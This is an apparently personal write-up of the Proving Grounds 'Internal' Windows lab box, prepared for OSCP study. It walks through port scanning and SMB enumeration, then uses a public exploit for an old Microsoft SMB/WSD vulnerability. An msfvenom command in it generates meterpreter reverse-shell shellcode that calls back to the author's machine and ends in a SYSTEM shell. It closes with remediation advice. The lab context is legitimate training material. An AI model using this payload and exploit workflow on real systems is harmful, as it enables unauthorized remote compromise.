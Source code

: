 ```yaml
---
layout: writeup
title: Internal - Proving Grounds
date: 2024-07-28 13:32:20 +0300
description: A Writeup of the Internal Box from Proving Grounds
image: # /assets/images/Flu/Flu_1.png
fig-caption: # Add figcaption (optional)
tags: [Windows, TJ Null, LainKusanagi, Buffer Overflow]
---
```


Alright, here's a writeup of Internal from [Proving Grounds](https://www.offsec.com/labs/), and it is on both TJ Null’s OSCP [lab prep list](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#), as well as LainKusanagi’s [list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/). As usual we get started with an nmap scan which reveals:

```
PORT      STATE SERVICE
53/tcp    open  domain
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
5357/tcp  open  wsdapi
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49156/tcp open  unknown
49157/tcp open  unknown
49158/tcp open  unknown
```

Interesting that there's not even a web port here to fake us out. It also seems like there's not a lot to work with here, so hopefully the foothold comes up pretty quickly. I get started with `smbclient -L \\\\192.168.171.40\\ -N`, but we're not able to connect because we have `no workgroup available`. We are able to connect with rpcclient, but we can't seem to run any commands because we get the output: `Error was NT_STATUS_ACCESS_DENIED`. I ran enum4linux here as well, but nothing of note showed up. The only thing left really was port 5357 and brute forcing. 

When you Google "port 5357 exploit" (not even including wsdapi), you get [this Microsoft Security Bulletin](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2009/ms09-063). The subheader for this link says Vulnerability in Web Services on Devices API Could Allow Remote Code Execution." That could be a pretty big sign, and it also mentions CVE-2009-2512. So we can google that and see what we can find. There's a few options here. There's [this](https://www.exploit-db.com/exploits/40280) exploit from exploit-db, but it's from 2016, and searching for something newer might be a little easier. I found [this](https://github.com/sec13b/ms09-050_CVE-2009-3103) github repo which has two versions of an exploit from the same vulnerability, one apparently written in python2 and one in python3, both evidently adapted from the exploit-db one. 

I decide to go with the python3 one [here](https://github.com/sec13b/ms09-050_CVE-2009-3103/blob/main/MS09_050_2.py), but they all have a section for shell code, and you can see at the comment the command run to generate it. 

![Internal1.png](/assets/images/Internal/Internal1.png){: .center-aligned width="600px"}

I change the command for my own purposes: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.45.183 LPORT=445  EXITFUNC=thread  -f python -v shell`. 

![Internal2.png](/assets/images/Internal/Internal2.png){: .center-aligned width="600px"}

And then paste my own output into the exploit code. From there it's as simple as running: `python3 exploit.py $targetIP`. Initially I get an error:

```
ERROR: Could not find a version that satisfies the requirement smb (from versions: none)
ERROR: No matching distribution found for smb
```

But this can be overcome with `pip3 install pysmb`. After that, I get a hit on my reverse shell:

![Internal3.png](/assets/images/Internal/Internal3.png){: .center-aligned width="600px"}

And it hangs and dies. Maybe I'll go back to the exploit-db one... Wait. I see I used msfvenom for a meterpreter shell when I attempt to run the same command again. And I do, and it hangs again. At this point I go back to the exploit-db one, but it's in python2, which doesn't seem to accept that I have pysmb installed, and I can't seem to install it. 

I think a little bit more about the code and notice this section.

![Internal4.png](/assets/images/Internal/Internal4.png){: .center-aligned width="600px"}

It specifies metasploit, and that makes sense because the shell code given is a meterpreter shell which requires metasploit. But I don't want to use meterpreter or metasploit because I am studying for the OSCP exam, and you can only use Metasploit on one box, so I'd like to save it as best as I can. So I try to remove this code and run it without, but that doesn't work. In fact, it doesn't even establish a connection, so I think I must be going backwards. 

Instead, I decide to try to use metasploit, but only `exploit/multi/handler` which we can use on the exam. I put the `stager_sysenter_hook` code back where it was in the exploit, and upload the payload, LHOST, and LPORT options for the msf handler, and then run the code again. 

![Internal5.png](/assets/images/Internal/Internal5.png){: .center-aligned width="600px"}

And voila! It looks like we already have `NT Authority\System` privilges so we're done here. 

Lessons learned: Not a ton. It's easy to get stumped at the beginning here when there's nowhere to look but the 5357 port, and the vulnerability could easily be missed if you are just looking at exploit-db. I guess I learned that sometimes only msf handler will actually catch a shell, so it will be good to keep on eye on that in the future. 

Remediation Steps: Upgrading the version of this API as per the recommendations on the [Microsoft Security Bulletin](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2009/ms09-063). There weren't any other steps in this box. 

Side note: When I was looking up how others did the box, I saw that I was not the only one to accidentally use meterpreter shell code the first time around, but that author did not try again and still believed that maybe it would work with a regular shell from msfvenom. I actually didn't find any writeups at all that used a different handler; they all used msf, and most of the writeups actually used a Metasploit exploit, which of course would burn their one use on the actual exam. Apparently this is because the actual writeup from Offsec uses Metasploit which seems kind of dumb to me. It just kind of defeats the purpose. 

Future goal: It would be kind of cool to write an exploit that actually works with a non-msf handler... Unfortunately I can't spend the time right now with my exam coming up. 